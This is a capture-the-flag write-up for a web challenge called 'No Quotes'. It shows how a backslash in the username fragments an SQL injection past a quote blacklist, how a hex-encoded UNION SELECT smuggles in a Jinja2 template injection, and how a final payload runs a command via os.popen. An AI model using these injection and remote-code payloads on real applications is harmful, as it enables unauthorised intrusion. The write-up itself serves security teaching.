




## No Quotes  



The challenge first presents us with a simple login page.  



The Dockerfile also shows that there is a binary in root for reading the flag.  

```dockerfile
RUN echo "uoftctf{fake_flag}" > /root/flag.txt && \
    chmod 400 /root/flag.txt && \
    chown root:root /root/flag.txt

COPY ./src/readflag.c /readflag.c
RUN gcc /readflag.c -o /readflag
RUN rm /readflag.c
RUN chmod 4755 /readflag
```

In the backend, we can immediately notice an SQLi vulnerability in the `/login` endpoint. However, quotes are blacklisted, making this quite problematic.  

```python
def waf(value: str) -> bool:
    blacklist = ["'", '"']
    return any(char in value for char in blacklist)
    
...

@app.post("/login")
def login():

    username = request.form.get("username", "")
    password = request.form.get("password", "")

    if waf(username) or waf(password):
        return render_template(
            "login.html",
            error="No quotes allowed!",
            username=username,
        )
    query = (
        "SELECT id, username FROM users "
        f"WHERE username = ('{username}') AND password = ('{password}')"
    )
```

On the homepage, we can also notice an SSTI vulnerability, where we can control `session["user"]` to give ourselves SSTI and RCE.  

Our goal would thus be to login with a username that contains an SSTI payload.  

```python
@app.get("/home")
def home():
    if not session.get("user"):
        return redirect(url_for("index"))
    return render_template_string(open("templates/home.html").read() % session["user"])
```

To bypass the quote blacklist, we can use fragmented SQLi. We inject `\` inside the username to prevent the string from closing, causing the `password` field to close it instead. At that point, we can then inject our actual SQLi payload.  

```sql
SELECT id, username FROM users  WHERE username = ('\') AND password = (') <payload>')
```

Since quotes are blacklisted, we can hex-encode the SSTI payload string. Below is a payload that logins with the username `{{7*7}}`.  

```
Username: \
Password: ) union select 1, 0x7b7b372a377d7d #
```

Submitting the payload will then give us SSTI.  



From there, we can use this payload to get RCE and execute the flag binary.  

```python
{{ self.__init__.__globals__.__builtins__['__import__']('os').popen('/readflag').read() }}
```



Flag: `uoftctf{w0w_y0u_5UcC355FU1Ly_Esc4p3d_7h3_57R1nG!}`